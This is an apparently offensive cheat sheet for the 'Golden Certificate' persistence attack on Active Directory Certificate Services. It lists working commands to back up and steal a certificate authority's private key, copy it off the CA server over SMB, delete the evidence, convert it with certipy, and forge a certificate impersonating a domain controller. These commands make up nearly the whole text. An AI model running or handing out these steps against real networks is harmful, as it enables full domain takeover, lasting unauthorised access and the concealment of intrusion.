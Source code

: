 ```yaml
---
description: THEFT3 + DPERSIST1
---
```


# Golden Certificate

Backup and extract manually:

```
Cmd > certutil -backupkey -f -p Passw0rd! C:\Windows\CABackup
$ smbclient.py -k -no-pass CA01.megacorp.local
# use c$
# cd windows/CABackup
# get CorpCA.p12
# rm CorpCA.p12
# cd ..
# rmdir CABackup
```

P12 to PFX:

```
$ certipy cert -pfx CorpCA.p12 -password 'Passw0rd!' -export -out CorpCA.pfx
```

Get CRL from the DC:

```
$ </dev/null openssl s_client -connect <DC_IP>:636 | openssl x509 > dc.crt
```




## Certipy

```
$ certipy ca -backup -ca CorpCA -k -no-pass -target CA01.megacorp.local -dc-ip 192.168.1.11 -ns 192.168.1.11
$ certipy forge -ca-pfx CorpCA.pfx -upn 'DC01$@megacorp.local' (or -dns DC01.megacorp.local) -subject 'CN=DC01,OU=Domain Controllers,DC=megacorp,DC=local' -crl 'ldap://***'
```
